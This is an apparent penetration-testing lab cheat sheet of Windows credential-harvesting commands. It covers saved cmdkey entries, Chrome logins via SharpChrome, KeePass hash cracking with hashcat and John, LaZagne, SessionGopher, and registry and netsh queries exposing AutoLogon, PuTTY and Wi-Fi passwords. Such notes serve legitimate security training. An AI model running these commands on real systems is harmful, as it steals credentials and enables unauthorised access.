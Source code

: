 ## Listing Saved Credentials
cmdkey /list
## Run Commands as Another User
PS C:\htb> runas /savecred /user:inlanefreight\bob "COMMAND HERE"
## Browser Credentials
Retrieving Saved Credentials from Chrome
https://github.com/GhostPack/SharpDPAPI
PS C:\ .\SharpChrome.exe logins /unprotect
## Password Managers
If we find a .kdbx file on a server, workstation, or file share, we know we are dealing with a KeePass database which is often protected by just a master password. If we can download a .kdbx file to our attacking host, we can use a tool such as keepass2john to extract the password hash and run it through a password cracking tool such as Hashcat or John the Ripper.
```
python2.7 keepass2john.py <file>.kdbx
```
### Cracking Hash Offline
```
hashcat -m 13400 keepass_hash /opt/useful/seclists/Passwords/Leaked-Databases/rockyou.txt
```
```
keepass2john Inlanefreight.kdbx 
```
```
john --format=keepass keepass_hash.hash
```
## Running All LaZagne Modules
```
PS C:\htb> .\lazagne.exe all
```
## Running SessionGopher as Current User
```
https://github.com/Arvanaghi/SessionGopher
```
```
PS C:\htb> Import-Module .\SessionGopher.ps1
```
```
PS C:\Tools> Invoke-SessionGopher -Target WINLPE-SRV01
```
## Windows AutoLogon
```
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```
### Enumerating Autologon with reg.exe
```
C:\htb>reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```
## Putty
```
Computer\HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```
### Enumerating Sessions and Finding Credentials:
```
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
```
Next, we look at the keys and values of the discovered session "kali%20ssh":
```
PS C:\htb> reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\kali%20ssh
```
## Wifi Passwords
```
C:\htb> netsh wlan show profile
```
note the All User Profile and use it in the next command
### Retrieving Saved Wireless Passwords
```
C:\htb> netsh wlan show profile ilfreight_corp key=clear
```